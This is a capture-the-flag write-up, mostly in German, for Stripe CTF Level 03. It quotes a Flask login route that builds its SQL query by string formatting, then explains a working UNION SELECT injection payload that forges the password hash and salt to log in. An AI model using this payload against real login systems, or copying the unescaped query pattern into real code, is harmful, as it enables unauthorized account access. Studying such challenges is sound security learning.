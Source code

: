 LEVEL 03
========

SQL injection vulnerability

'UNION SELECT id,
"6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28", " "
FROM users LIMIT 1--

----

After the fiasco back in Level 0, management has decided to fortify the Secret Safe into an unbreakable solution (kind of like Unbreakable Linux). The resulting product is Secret Vault, which is so secure that it requires human intervention to add new secrets.

A beta version has launched with some interesting secrets (including the password to access Level 4); you can check it out at https://level03-1.stripe-ctf.com/user-XXXX. As usual, you can fetch the code for the level (and some sample data) via git clone https://level03-1.stripe-ctf.com/user-XXXX/level03-code, or you can read the code below.

---

Bei der Anwendung aus Level03 müssen wir uns als korrekter User (in diesem Fall User *Bob*) einloggen um das korrekte Passwort zu bekommen. Hier in dem Fall haben wir keinerlei Möglichkeit an ein korrektes Passowrt für den User zu finden,... das Codestück von Interesse ist folgendes:

    @app.route('/login', methods=['POST'])
    def login():
        username = flask.request.form.get('username')
        password = flask.request.form.get('password')

        if not username:
            return "Must provide username\n"

        if not password:
            return "Must provide password\n"

        conn = sqlite3.connect(os.path.join(data_dir, 'users.db'))
        cursor = conn.cursor()

        query = """SELECT id, password_hash, salt FROM users
                   WHERE username = '{0}' LIMIT 1""".format(username)
        cursor.execute(query)

        res = cursor.fetchone()
        if not res:
            return "There's no such user {0}!\n".format(username)
        user_id, password_hash, salt = res

        calculated_hash = hashlib.sha256(password + salt)
        if calculated_hash.hexdigest() != password_hash:
            return "That's not the password for {0}!\n".format(username)

        flask.session['user_id'] = user_id
        return flask.redirect(absolute_url('/'))

Wir wir lesen können werden sowohl Username als auch Passwort aus den übergebenen Parametern genommen. Es wird weder validiert noch escaped. Hier können wir also eine SQL Injection vornehmen. Einen verfrühten Abschluß des Statements und das anhängen eines zweiten Statements (bspw. UPDATE) funktioniert hier nicht, da hier lediglich ein Statement pro execute() vorhanden sein darf. Weiter hilft hier ein UNION SELECT [Wikipedia](http://de.wikipedia.org/wiki/SQL-Injection#Aussp.C3.A4hen_von_Daten). Geben wir als Username

    'UNION SELECT id, "6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28", " " FROM users LIMIT 1--

ein, so werden wir autorisiert. Wieso funktioniert das?

    user_id, password_hash, salt = res

    calculated_hash = hashlib.sha256(password + salt)
    if calculated_hash.hexdigest() != password_hash:

Hier sehen wir, wie der hash errechnet wird. Durch den UNION SELECT können wir sowohl password_hash als auch den salt überschreiben. Der salt ist hier also ein Leerzeichen, der password_hash ist 6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28. Dies entspricht nämlich dem Hash zweier Leerzeichen - das eine ist der Salt, das andere das Leerzeichen, das wir als Passwort in der Eingabemaske eingeben.

    >>> hashlib.sha256(' ' + ' ').hexdigest()
    '6c179f21e6f62b629055d8ab40f454ed02e48b68563913473b857d3638e23b28'
